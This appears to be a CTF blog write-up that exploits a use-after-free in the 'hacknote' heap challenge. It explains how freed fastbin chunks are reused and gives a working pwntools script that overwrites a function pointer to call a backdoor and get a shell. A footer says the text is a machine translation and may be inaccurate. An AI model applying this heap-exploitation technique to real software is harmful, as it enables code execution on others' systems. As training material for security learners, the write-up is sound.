 ```yaml
---
title: "PWN First Attempt on Heap - UseAfterFree"
date: 2022-06-30
tags: ["CTF", "Pwn"]
authors: [nova]
---
```


After dawdling for so long, I finally managed to dive into the world of HEAP.

Thanks to Ayang's (bushi) guidance.

Let's first take a look at the simplest `Use After Free` exploit, which requires minimal understanding of heap concepts. I will probably write about `Double Free + Unlink` tomorrow.

I used the original challenge [hacknote](https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/heap/use_after_free/hitcon-training-hacknote/hacknote) from `CTF-WIKI`.

<!--truncate-->

# Changing the `libc` used as a dynamic interpreter in Pwntools

I would like to mention a pitfall I encountered on the way. `libc-2.31` has made significant changes to the heap management mechanism, so the debugging approach based on `CTF-WIKI` didn't work initially. Therefore, I will explain how to change the dynamic interpreter.

Firstly, you need two tools, [glibc-all-in-all](https://github.com/matrix1001/glibc-all-in-one) and [patchelf](https://github.com/NixOS/patchelf).

Please refer to the `README.md` for installation instructions.

After downloading the corresponding `libc`, use `patchelf` to set the interpreter for the `ELF` file.

```sh
patchelf --set-interpreter /path/to/libc/libc-2.23.so --set-rpath /path/to/libc/ ./binary_file_name

# For Example: patchelf --set-rpath /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ --set-interpreter /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so ./use_after_free
```

## Use After Free

The main cause of this vulnerability is a `dangling pointer`—the memory pointer is not set to NULL after `free()`. If other code modifies the content of this memory at this point, using this memory again will lead to issues.

## Source

```sh
gcc -m64 -fno-stack-protector -no-pie -z execstack -g use_after_free.c -o use_after_free
# Make
```

No protections, 64-bit.

The program defines a structure with a pointer `printnote` pointing to the `print_note_content` method and a pointer `content`.

The implementation of `add_note()` is as follows: Firstly, it `malloc` a `struct note`, which is 16 bytes in the heap. After that, it allocates `size` bytes in the heap for `content`.

Take a look at `del_note()`. After deleting a node, `count` does not change—this limits the number of times we can `add_note()`, and also provides convenience for our exploit. Also, after `free`, `notelist[idx]` is not set to `NULL`, which opens the door for our `Use After Free` exploitation.

`print_note()` calls `notelist[idx]->printnote(notelist[idx])`. If we can modify the memory of `notelist[idx]->printnote`, we can achieve the effect of executing a backdoor function.

## Exploit

Since `struct note` is a fixed `0x20`-size `chunk`, we mainly think about the exploitation related to `fastbins`.

Since `fastbins` maintains several linked lists from `0x20` to `0x80` and has a last-in, first-out mechanism, we can consider the following scenario:

If we allocate two `0x20` notes, let's call them `note1` and `note2`, the program should have 4 heap segments—two `0x20`-sized `note1_struct_note` and `note2_struct_note`, and two `0x30`-sized `note1` and `note2` (excluding the one byte for `PREV_IN_USE`).

If we then free both notes, the `fastbins` should look like this:

```sh
fastbins:
    0x20: note2_struct_note_addr -> note1_struct_note_addr
    0x30: note2 -> note1
```

What if we then allocate another `0x10` note `note3`? Based on the recycling mechanism of `fastbins`, we can infer that:

The first `note2_struct_note_addr` will be allocated to `note3_struct_note_addr`, while the second `note1_struct_note_addr` will be allocated to our controllable `note3`.

Now, if we change the `content` of `note3` to a backdoor function and call `print_note(0)`:

As you'd expect, the backdoor function will be executed.

```python
from pwn import *

sh = process(["./use_after_free"])

def add_note(size, content):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"1")
    sh.recvuntil(b"Note size :")
    sh.sendline(str(size).encode())
    sh.recvuntil(b"Content :")
    sh.sendline(content)

def delete_note(index):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"2")
    sh.recvuntil(b"Index :")
    sh.sendline(f"{index}".encode())

def print_note(index):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"3")
    sh.recvuntil(b"Index :")
    sh.sendline(f"{index}".encode())

# gdb.attach(sh)
add_note(32, b"aaaa")
add_note(32, b"bbbb")
delete_note(0)
delete_note(1)
add_note(16, p64(0x4015f9)) # addr of magic()
print_note(0)
sh.interactive()
```

## GDB

Theoretical knowledge alone is incomplete without practical debugging using `GDB`.

Based on the explanation above, let's debug at the second `add_note()`, second `delete_note()`, and the last `add_note()`:

After adding:

![heap after adding](https://oss.nova.gal/img/image-20220314221552787.png)

![heap after adding](https://oss.nova.gal/img/image-20220314221633396.png)

`0x401256` is the address of `print_note_content()`, and `0xd04030` and `0xd04080` are the addresses of `content`.

After deleting:

![heap after deleting](https://oss.nova.gal/img/image-20220314221804318.png)

![heap after deleting](https://oss.nova.gal/img/image-20220314221824810.png)

![heap after deleting](https://oss.nova.gal/img/image-20220314221944311.png)

Different-sized chains enter different `fastbins`.

Final state:

![heap final](https://oss.nova.gal/img/image-20220314222135890.png)

![heap final](https://oss.nova.gal/img/image-20220314222201810.png)

![heap final](https://oss.nova.gal/img/image-20220314222221269.png)

After the last addition, we observe that the two `0x20`-sized heaps in `fastbins` have been recycled! The address of the backdoor function `0x4015f9` as the `content` has been written to the location of the initial `print_note_content()`.

At this point, running `print_note()` will execute the backdoor function.

![Shell!](https://oss.nova.gal/img/image-20220314222613059.png)

:::info
This Content is generated by ChatGPT and might be wrong / incomplete, refer to Chinese version if you find something wrong.
:::

<!-- AI -->
